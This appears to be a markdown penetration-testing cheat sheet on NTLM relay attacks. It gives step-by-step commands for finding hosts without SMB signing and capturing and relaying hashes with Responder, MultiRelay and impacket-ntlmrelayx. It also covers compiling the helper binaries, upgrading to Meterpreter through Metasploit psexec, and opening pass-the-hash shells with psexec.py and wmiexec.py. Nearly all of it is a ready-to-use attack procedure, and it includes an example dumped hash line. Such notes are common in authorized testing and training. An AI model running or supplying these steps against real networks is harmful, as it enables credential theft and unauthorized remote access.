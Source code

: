 ## Search for SMB signing
* `responder-RunFinger -i <target>`
    - identify host with SMB signing disbled 

## Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
## Getting shell
### 1. MultiRelay
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
- 1. Run responder until hashes is received and close
- 2. Run Multirelay
- 3. While MultiRelay is running, run again responder

### 2. ntlmrelayx
In responder.conf, `SMB` and `HTTP` are Off
* `impacket-ntlmrelayx -t <target> -smb2support` - dumps the local hashes
* `impacket-ntlmrelayx -t 172.16.5.10 -i` - interactive shell

## Upgrade to Meterpreter shell
### Windows
* msf> `use exploit/windows/smb/psexec`
  - `set smbuser <localAccount>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
  - `set smbpass <local-NTLM-hash>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
e.g. localAccount and local-NTLM-hash is bolded in the following: __admin__:1005:__aad3b435b51404eeaad3b435b51404ee:179699ef43d4b9ba2f8f615f59893917__:::
### Linux
* msf> `use exploit/linux/samba/is_known_pipename`

## Other shells
__psexec__:
* `psexec.py <domain>/<user>:'<password>'@<target-IP>`
* `psexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

__wmiexec__:
* `wmiexec.py <user>@<target-IP>` - hashes <local-NTLM hash>
